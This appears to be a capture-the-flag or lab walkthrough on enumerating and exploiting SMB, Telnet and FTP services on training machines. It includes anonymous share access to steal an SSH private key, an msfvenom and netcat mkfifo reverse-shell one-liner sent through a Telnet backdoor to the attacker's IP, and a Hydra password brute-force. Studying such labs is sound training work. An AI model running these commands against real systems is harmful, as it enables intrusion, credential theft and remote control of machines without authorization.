# SMB Enumeration

## SMB (Server Message Block)
**Server Message Block (SMB)** is a network communication protocol based on a client-server architecture. Its primary function is to facilitate shared and authenticated access to files, printers, serial ports, and other resources within a local network.

At a technical level, SMB is characterized by the following:

* **Communication Model:** It operates under a **request-response** scheme. The client sends specific commands (called SMBs) and the server processes the request to return the response or the requested resource.
* **Network Layer:** It functions at the **Application Layer (Layer 7 of the OSI model)**, managing resource transactions.
* **Transport:** Modern SMB implementations operate directly over **TCP/IP** using **port 445**. Historically, it relied on NetBIOS over TCP/IP (NBT) using ports 137, 138, and 139.
* **Ecosystem:** While it is the native standard for resource sharing in Microsoft Windows environments, its use has become universal thanks to open-source implementations like **Samba**, which allow full interoperability with Unix and Linux operating systems.

---

## SMB Enumeration
Enumeration is the process of gathering information about a target to identify potential attack vectors and assist in exploitation.

The first step in enumeration is performing a **port scan** to obtain as much information as possible about the services, applications, structure, and operating system of the target machine.

### Port Scan
A full port scan was conducted to identify open services:

```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.66.181.13
```



### Analysis of Results
The initial scan identified **3 open ports**. Key findings include:
* **SMB Services:** Located on ports **139** and **445**.
* **Hostname:** The target machine is identified as `POLOSMB`.


## Further Enumeration: enum4linux
To gather more detailed information about the SMB service, `enum4linux` was used. This tool is essential for enumerating Windows and Samba systems.

**Command:**
```bash
enum4linux -a 10.66.181.13
```




### Key Findings from enum4linux
The enumeration process provided the following details:
* **Domain Name:** `WORKGROUP`
* **OS Version:** `6.1`
* **Vulnerability:** The scan confirmed that the `profiles` share allows **anonymous access**.

---

## Exploitation: Initial Access

Since we identified an SMB share that permits guest access, we can use a client to interact with the server's resources. We will use **smbclient** with the user `Anonymous`. 

This tool provides an interface similar to an FTP client, allowing us to navigate the directory and use the `get` command to download files from the remote machine to our local Kali Linux system.

### Connecting to the Share
Use the following command to connect to the identified share:

```bash
smbclient //10.67.161.105/profiles -U Anonymous
```




The `id_rsa` key is downloaded, and we modify the permissions so that Kali can access this key via SSH.

```bash
chmod 600 id_rsa
ssh -i id_rsa cactus@10.66.171.51
```



## Understanding Telnet
**Telnet** is a legacy protocol that allows for a remote connection by establishing a terminal, which enables interaction with the remote host. 

Due to the lack of encryption, this protocol has been replaced by SSH.

```bash
telnet [ip] [port]
```

## Telnet Enumeration
Let's begin with a port scan to obtain the greatest amount of information possible about the services, applications, structure, and operating system of the target machine.


* **1 open TCP port.**
* **SKIDY** is a potential username.
* This port can be used for a **backdoor**.


## Telnet Exploitation
We know that this machine has a port marked as a "backdoor" and a potential username "skidy".

```bash
telnet 10.64.139.106 8012
```


We will start a listener with:
```bash
tcpdump ip proto \\icmp -i tun0
```

And in the Telnet terminal, we check if we can execute commands, using our TUN 0 IP address:
```bash
.RUN ping 192.168.202.148 -c 1
```



This verifies that we can execute system commands. Now, we will generate a reverse shell payload using `msfvenom`:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.202.148 lport=4444 R
```


Next, we open a listening port:
```bash
nc -nlvp 4444
```

And in the skidy backdoor terminal, we execute `.RUN` followed by the payload generated by `msfvenom`. This will grant us a shell on the target machine:
```bash
.RUN mkfifo /tmp/qdbnvh; nc 192.168.202.148 4444 0</tmp/qdbnvh | /bin/sh >/tmp/qdbnvh 2>&1; rm /tmp/qdbnvh
```


## Understanding FTP
The **File Transfer Protocol (FTP)** is, as its name suggests, a protocol that allows the remote transfer of files across a network using a client-server communication model. Its standard port is **21**.

## FTP Enumeration
As usual, we begin with a port scan:


* **3 open ports** were discovered, with port 21 running the FTP service.
* A preconfigured user **"anonymous"** and a file named `PUBLIC_NOTICE.txt` were found.
* By connecting via `ftp [ip]` and downloading the text file using the `get` command, we discovered a user named **"Mike"**.

## FTP Exploitation
Similar to Telnet, when using FTP, both the command and data channels are unencrypted. Any data sent over these channels can be intercepted and read.

When looking at an FTP server from our current position on this machine, one avenue we can exploit is weak or default password configurations.

From our enumeration stage, we know:
* There is an FTP server running on this machine.
* We have a potential username (`Mike`).

Using this information, we will attempt to **brute-force** the FTP server password.

**Hydra:** A very fast network logon cracker capable of performing dictionary attacks against more than 50 protocols.
```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.67.143.43 ftp
```


Now we connect via FTP using this username and the cracked password, download the flag using `get`, and read it on our Kali machine using `cat ftp.txt`.
```bash
ftp 10.67.143.43
```


